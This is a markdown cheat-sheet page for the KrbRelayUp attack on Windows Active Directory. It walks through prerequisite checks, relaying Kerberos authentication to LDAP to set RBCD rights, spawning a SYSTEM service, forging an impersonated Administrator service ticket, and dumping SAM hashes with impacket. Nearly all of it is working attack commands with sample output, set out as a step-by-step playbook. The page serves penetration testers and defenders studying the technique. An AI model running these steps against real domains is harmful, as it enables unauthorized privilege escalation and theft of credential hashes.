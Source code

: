 ```yaml
---
title: "KrbRelayUp"
date: 2025-8-4
tags: ["KrbRelayUp", "Active Directory", "Local Privilege Escalation", "Kerberos Relay", "LDAP Signing", "Shadow Credentials", "ADCS Web Enrollment", "RBCD", "S4U2Self", "SCMUACBypass"]
---
```


### Prerequisite

#### 1. Machine Quota

```console
nxc ldap <TARGET_DOMAIN> -u '<USER>' -p '<PASSWORD>' -d <DOMAIN> -M maq
```

```console {class="sample-code"}
$ nxc ldap DC01.example.com -u 'apple.seed' -p 'Password' -d example.com -M maq
LDAP        10.10.72.181    389    DC01          [*] Windows Server 2022 Build 20348 (name:DC01) (domain:example.com)
LDAP        10.10.72.181    389    DC01          [+] example.com\apple.seed:Password 
MAQ         10.10.72.181    389    DC01          [*] Getting the MachineAccountQuota
MAQ         10.10.72.181    389    DC01          MachineAccountQuota: 10
```

#### 2. LDAP Signing NOT Enforced

```console
nxc ldap <TARGET_DOMAIN> -u '<USER>' -p '<PASSWORD>' -d <DOMAIN> -M ldap-checker
```

```console {class="sample-code"}
$ nxc ldap DC01.example.com -u 'apple.seed' -p 'Password' -d example.com -M ldap-checker
LDAP        10.10.72.181    389    DC01          [*] Windows Server 2022 Build 20348 (name:DC01) (domain:example.com)
LDAP        10.10.72.181    389    DC01          [+] example.com\apple.seed:Password 
LDAP-CHE... 10.10.72.181    389    DC01          LDAP signing NOT enforced
LDAP-CHE... 10.10.72.181    389    DC01          LDAPS channel binding is set to: Never
```

---

### Abuse #1: Create Control Primitive over Local Machine using RBCD

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Coerce Kerberos Auth from Local Machine Account, Relay it to LDAP

```console
.\KrbRelayUp.exe relay -Domain <DOMAIN> -CreateNewComputerAccount -ComputerName <NEW_COMPUTER>$ -ComputerPassword <NEW_PASSWORD> --clsid <CLSID>
```

```console {class="sample-code"}
PS C:\ProgramData> .\KrbRelayUp.exe relay -Domain example.com -CreateNewComputerAccount -ComputerName Test$ -ComputerPassword Test1234 --clsid d99e6e73-fc88-11d0-b498-00a0c90312f3
.\KrbRelayUp.exe relay -Domain example.com -CreateNewComputerAccount -ComputerName Test$ -ComputerPassword Test1234 --clsid d99e6e73-fc88-11d0-b498-00a0c90312f3
KrbRelayUp - Relaying you to SYSTEM


[+] Rewriting function table
[+] Rewriting PEB
[+] Init COM server
[+] Computer account "Test$" added with password "Test1234"
[+] Looking for available ports..
[+] Port 10246 available
[+] Register COM server
[+] Forcing SYSTEM authentication
[+] Got Krb Auth from NT/SYSTEM. Relying to LDAP now...
[+] LDAP session established
[+] RBCD rights added successfully
[+] Run the spawn method for SYSTEM shell:
    ./KrbRelayUp.exe spawn -m rbcd -d example.com -dc dc01.example.com -cn Test$ -cp Test1234
```

#### 2. Obtain a Kerberos Service Ticket and Use it to Create a New Service Running as SYSTEM

```console
.\KrbRelayUp.exe spawn -m rbcd -d <DOMAIN> -dc <DC> -cn <NEW_COMPUTER>$ -cp <NEW_PASSWORD>
```

```console {class="sample-code"}
PS C:\ProgramData> .\KrbRelayUp.exe spawn -m rbcd -d example.com -dc dc01.example.com -cn Test$ -cp Test1234
.\KrbRelayUp.exe spawn -m rbcd -d example.com -dc dc01.example.com -cn Test$ -cp Test1234
KrbRelayUp - Relaying you to SYSTEM

[+] TGT request successful!
[+] Building S4U2self 
[+] Using domain controller: dc01.example.com (fe80::988d:722f:af5:6fb9%6)
[+] Sending S4U2self request to fe80::988d:722f:af5:6fb9%6:88
[+] S4U2self success!
[+] Got a TGS for 'Administrator' to 'Test$@EXAMPLE.COM'
[+] Impersonating user 'Administrator' to target SPN 'HOST/DC01'
[+] Building S4U2proxy request for service: 'HOST/DC01'
[+] Using domain controller: dc01.example.com (fe80::988d:722f:af5:6fb9%6)
[+] Sending S4U2proxy request to domain controller fe80::988d:722f:af5:6fb9%6:88
[+] S4U2proxy success!
[+] Ticket successfully imported!
[+] Using ticket to connect to Service Manger
[+] AcquireCredentialsHandleHook called for package N
[+] Changing to Kerberos package
[+] InitializeSecurityContextHook called for target H
[+] InitializeSecurityContext status = 0x00090312
[+] InitializeSecurityContextHook called for target H
[+] InitializeSecurityContext status = 0x00000000
[+] KrbSCM Service created
[+] KrbSCM Service started
[+] Clean-up done
```

#### 3. Request a Service Ticket

```console
impacket-getST -spn cifs/<DC> -impersonate Administrator -dc-ip <DC_IP> '<DOMAIN>/<NEW_COMPUTER>$:<NEW_PASSWORD>'   
```

```console {class="sample-code"}
$ impacket-getST -spn cifs/dc01.example.com -impersonate Administrator -dc-ip 10.10.72.181 example.com/'Test$':'Test1234'   
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc01.example.com@EXAMPLE.COM.ccache
```

#### 4. Secrets Dump

```console
# Import ticket
export KRB5CCNAME='Administrator@cifs_<DC>@<DOMAIN>.ccache'
```

```console {class="sample-code"}
export KRB5CCNAME='Administrator@cifs_dc01.example.com@EXAMPLE.COM.ccache'
```

```console
# Check
klist
```

```console {class="sample-code"}
$ klist
Ticket cache: FILE:Administrator@cifs_dc01.example.com@EXAMPLE.COM.ccache
Default principal: Administrator@example.com

Valid starting       Expires              Service principal
2025-08-04T16:20:45  2025-08-05T02:20:44  cifs/dc01.example.com@EXAMPLE.COM
        renew until 2025-08-05T16:20:44
```

```console
# Secrets dump
impacket-secretsdump -k -no-pass <DC>
```

```console {class="sample-code"}
$ impacket-secretsdump -k -no-pass DC01.example.com                                                                   
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf58ac639976f0c99c2dde0d24ef3219d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:---[REDACTED]---:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:---[REDACTED]---:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:---[REDACTED]---:::
```

{{< /tabcontent >}}
